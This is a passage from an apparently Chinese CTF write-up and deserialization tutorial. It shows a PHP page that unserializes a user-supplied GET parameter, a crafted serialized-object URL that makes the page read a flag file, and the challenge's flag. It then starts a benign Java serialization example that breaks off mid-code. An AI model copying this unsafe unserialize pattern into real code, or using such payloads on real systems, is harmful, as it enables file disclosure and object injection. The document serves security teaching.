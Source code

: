 

```
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
```

看到这个基本就对怎么拿到答案了，index.php 接收一个class， 这里有序列化操作，加上上面的序列化中 __construct 这个魔术函数有相关参数，那么就构造序列化的字符串应该就可以获取flag了

`http://web.jarvisoj.com:32768/?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}` 访问得到如下结果：

```
<?php 
	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
	//Fake flag:
	echo "FLAG: PCTF{I_4m_not_fl4g}"
?>
```


## jAVA反序列化

### Java反序列化概述

Java 序列化是指把 Java 对象转换为字节序列的过程便于保存在内存或文件中，实现跨平台通讯和持久化存储。ObjectOutputStream类的 writeObject() 方法可以实现序列化。反序列化则指把字节序列恢复为 Java 对象的过程，相应的，ObjectInputStream 类的 readObject() 方法用于反序列化。

### Java的反序列化代码


```
package com.company;
import java.io.*;


public class Main {

    public static void main(String[] args)throws Exception {
        MyObject myObject=new MyObject();
        myObject.name="hello world!";
        //创建一个包含对象进行反序列化信息的”object”数据文件
        FileOutputStream fos = new FileOutputStream("object");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        //writeObject()方法将obj对象写入object文件
        os.writeObject(myObject);
        os.close();
        //从文件中反序列化obj对象
        FileInputStream fis=new FileInputStream("object");
        ObjectInputStream ois=new ObjectInputStream(fis);
        //恢复对象
        MyObject obj2=(MyObject)ois.readObject();
        System.out.print(obj2.name);
        ois.close();
    }
}

class MyObject implements Serializable {
    //只有实现了Serializable接口的类的对象才可以被序列化
    public String name;
```